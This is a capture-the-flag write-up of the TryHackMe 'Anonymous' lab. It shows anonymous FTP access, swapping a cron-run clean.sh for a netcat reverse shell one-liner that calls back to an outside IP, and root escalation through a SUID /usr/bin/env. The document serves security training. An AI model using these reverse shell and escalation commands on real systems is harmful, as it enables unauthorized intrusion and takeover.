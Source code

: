 Room: [Anonymous](https://tryhackme.com/room/anonymous)

Difficulty: Medium

Overview: In this room we will take advantage of a missconfigured ftp server in order to modify a script that runs has a cronjob. From there we will use SUID binaries to do privilege escalation. 

------------------------------------------------------------------------------------------------------------------------------------------------------------------

We will start enumerating the machine with nmap:

**nmap -sV -sC -A -p anonymous.thm -oN nmap.txt**

![nmap1](https://user-images.githubusercontent.com/76821053/118256768-c30dd800-b4a5-11eb-8835-6cbb9f426a20.png)
![nmap2](https://user-images.githubusercontent.com/76821053/118256851-d7ea6b80-b4a5-11eb-9455-def0bbef6f87.png)

Open ports and their versions running on the remote system:

21    →  vsftpd 2.0.8 

22    →  OpenSSH 7.6p1

139  →  netbios-ssn Samba smbd 3.X - 4.X

445  →  netbios-ssn Samba smbd 4.7.6

From the nmap scan we can imediately answer the first three questions.

Continuing enumerating the machine. 

The ftp server lets us login with user “anonymous” without any password.

![ftpdownload](https://user-images.githubusercontent.com/76821053/118257028-1122db80-b4a6-11eb-90cf-8b198bb70edf.png)

I downloaded three files: **clean.sh**, **removed_files.log**, **to_do.txt**.

**to_do.txt**:

Leaves a hint that the system is not safe. Meaning that maybe some services have anonymous login.

![todo](https://user-images.githubusercontent.com/76821053/118257209-45969780-b4a6-11eb-9215-7690384324ed.png)

**clean.sh**:

Is a bash script that when ran it checks if there is files in the /tmp directory and removes them. 

![readclean](https://user-images.githubusercontent.com/76821053/118257284-5ba45800-b4a6-11eb-9f3e-5db72feed54b.png)

**removed_files.log**:

When the bash script runs it posts status messages to this .log file.

![remotelog](https://user-images.githubusercontent.com/76821053/118257366-75de3600-b4a6-11eb-93e9-5790a2a1c534.png)

If we monitored the **removed_files.log** file we can see that the script **clean.sh** is running has a cronjob since it keeps posting to the .log file everyminute:

If we use "wc -l" we can check how many lines (post messages) the file has.

![remoteWC1](https://user-images.githubusercontent.com/76821053/118257588-b63db400-b4a6-11eb-882b-1693c6c60e0d.png)

After a few minutes we have 72 entries.
 
![remoteWC2](https://user-images.githubusercontent.com/76821053/118257627-c05fb280-b4a6-11eb-8468-1d11bf8a02b3.png)
 
Lets try to upload files to the ftp server:
 
![ftpuploadtest](https://user-images.githubusercontent.com/76821053/118257708-d9686380-b4a6-11eb-9d0e-098654b93554.png)
 
Has we can see the system allows file upload, so lets change the **clean.sh** script a bit and upload it:
 
![cleantest](https://user-images.githubusercontent.com/76821053/118257824-f7ce5f00-b4a6-11eb-8b4f-6e3e435514d6.png)
 
The new message was posted to the .log file after a minute. 
 
![removemessage](https://user-images.githubusercontent.com/76821053/118258135-6ca19900-b4a7-11eb-8c7f-6b00cb9cff3d.png)

This is our way in to the remote target, so lets change the script to run a netcat reverse shell connection.

**rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f**

Change ip and port to match your own system and delete or comment out the rest of the script, because if the script runs the rest of the commands it will delete our tmp files.

![cleannetcat](https://user-images.githubusercontent.com/76821053/118265218-bb076580-b4b0-11eb-84fe-d1d79f532501.png)

Now we just have to be listening with netcat on the port we specify when we upload the new clean.sh file to the ftp server and get a reverse shell connection.

![netcatreverse](https://user-images.githubusercontent.com/76821053/118265304-dffbd880-b4b0-11eb-878d-c77337844df2.png)

Right away we can find the user.txt flag.

![flag1](https://user-images.githubusercontent.com/76821053/118265533-3a953480-b4b1-11eb-9990-d5658b3adbac.png)

It's good practice to stabilize your shell. So we can use tab-completion, Ctrl+C  without completely kills our shell and use su command since it often do not work.

And in a kali machine to do that we will use the following command:

**python -c 'import pty;pty.spawn("/bin/bash")'**

**export TERM=xterm-256-color**

**CTRL + Z**

**stty raw -echo; fg**

![stabilizeshell](https://user-images.githubusercontent.com/76821053/118265726-7fb96680-b4b1-11eb-973b-a63383054857.png)

Now lets try and elevate our privileges and gain root access.

We can use tools like linpeas.sh, but in this case we will do it manually. Since this privilege escalation is a simple one to find.

When enumerating a UNIX base system one of the first things we can do is search for SUID binaries. Set User ID is a type of permission that allows users to execute a file with the permissions of a specified user.  Files that have suid permissions run with higher privileges. 

For example if a file is owned by “root" user and is set to run has a SUID binary. Normal users might take advantage of this permitions to elevate their privileges.

So to check for SUID binaries we can use this command:

**find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;**

![findsuid](https://user-images.githubusercontent.com/76821053/118266231-33baf180-b4b2-11eb-9900-099dc92816fe.png)
![findsuid2](https://user-images.githubusercontent.com/76821053/118266407-7250ac00-b4b2-11eb-85be-5583970bedab.png)

There is a great site called GTFOBins that has a list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

https://gtfobins.github.io/

/usr/bin/env binary is running has root with SUID permitions, so we can exploit it.

![GTFObinenv](https://user-images.githubusercontent.com/76821053/118266632-c6f42700-b4b2-11eb-92f8-da4efdf14a9c.png)

/usr/bin/env /bin/sh -p

![rootflag](https://user-images.githubusercontent.com/76821053/118266812-091d6880-b4b3-11eb-91b8-50146e4390db.png)

Success we found our last flag!




